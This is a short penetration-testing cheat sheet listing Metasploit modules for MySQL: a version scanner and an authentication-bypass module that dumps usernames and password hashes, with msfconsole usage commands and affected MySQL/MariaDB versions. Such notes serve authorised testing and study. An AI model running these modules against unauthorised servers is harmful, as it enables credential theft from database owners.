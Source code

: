 


### Metasploit

MySQL Server Version Enumeration
([mysql_version](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_version/))

```sh
use auxiliary/scanner/mysql/mysql_version
```


> [!info]-
>
> Enumerates the version of MySQL servers



> [!example]-
>
> ```sh
> msf > use auxiliary/scanner/mysql/mysql_version
> msf auxiliary(mysql_version) > show actions
>     ...actions...
> msf auxiliary(mysql_version) > set ACTION < action-name >
> msf auxiliary(mysql_version) > show options
>     ...show and set options...
> msf auxiliary(mysql_version) > run
> ```


MySQL Authentication Bypass Password Dump
([mysql_authbypass_hashdump](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_authbypass_hashdump/))

```sh
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
```


> [!info]-
>
> This module exploits a password bypass vulnerability in MySQL
> in order to extract the usernames and encrypted password hashes
> from a MySQL server
>
> Impacts MySQL versions:
> - `5.1.x` before `5.1.63`
> - `5.5.x` before `5.5.24`
> - `5.6.x` before `5.6.6`
>
> And MariaDB versions:
> - `5.1.x` before `5.1.62`
> - `5.2.x` before `5.2.12`
> - `5.3.x` before `5.3.6`
> - `5.5.x` before `5.5.23`
